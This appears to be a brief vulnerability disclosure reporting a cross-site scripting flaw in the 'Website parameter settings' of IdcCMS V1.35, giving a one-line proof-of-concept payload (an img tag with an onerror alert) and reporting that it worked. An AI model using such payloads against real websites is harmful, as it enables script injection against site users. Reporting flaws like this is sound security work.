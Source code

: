 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Website parameter settings' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
